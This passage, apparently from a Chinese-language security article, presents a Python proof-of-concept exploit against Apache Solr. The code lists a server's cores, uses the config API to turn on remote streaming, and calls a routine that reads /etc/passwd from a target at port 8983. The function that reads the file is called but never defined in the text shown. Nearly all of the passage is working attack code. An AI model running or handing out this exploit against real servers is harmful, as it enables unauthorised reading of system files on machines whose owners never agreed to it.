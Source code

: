 **第四步：执行并输出**  
```
def main(target_url):
    core_name = get_core_name(target_url)

    if core_name:
        if enable_remote_streaming(target_url,core_name):
            read_etc_passwd(target_url,core_name)

if __name__ == "__main__":
    TARGET_URL = "http://ip:8983"
    main(TARGET_URL)

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6c5OxTk0IlI6JcthdNaZibu7laeuicMy7qkOz6q5QAhMmiaKKleJjrE12m0AFqVmRaDes5rcsFGj4Eg/640?wx_fmt=png&from=appmsg "")  
## poc编写   
```
# -*- coding: utf-8 -*-  
import requests

import sys

import random

import re

import base64

import time

import json

# from requests.packages.urllib3.exceptions import InsecureRequestWarning

#拼接url然后提取name值
def get_core_name(target_url):
    core_url = target_url + "/solr/admin/cores?indexInfo=false&wt=json"
    reqs = requests.get(url=core_url,timeout=10)

    try:
        core_name = list(json.loads(reqs.text)["status"])[0]
        return core_name
    except:
        # print ("无法提取")
        sys.exit()


#构造config包
def enable_remote_streaming(target_url,core_name):
    session = requests.session()
    vuln_url = target_url + "/solr/" + core_name + "/config"
    headers = {
  "Content-type": "application/json "}
    data = '{"set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}'
    reqs = session.post(url=vuln_url, data=data, headers=headers, verify=False, timeout=10)

    if "responseHeader" in reqs.text and reqs.status_code == 200:
        print ("存在漏洞")
        return True
    else:
        print ("不存在漏洞")
        return False
```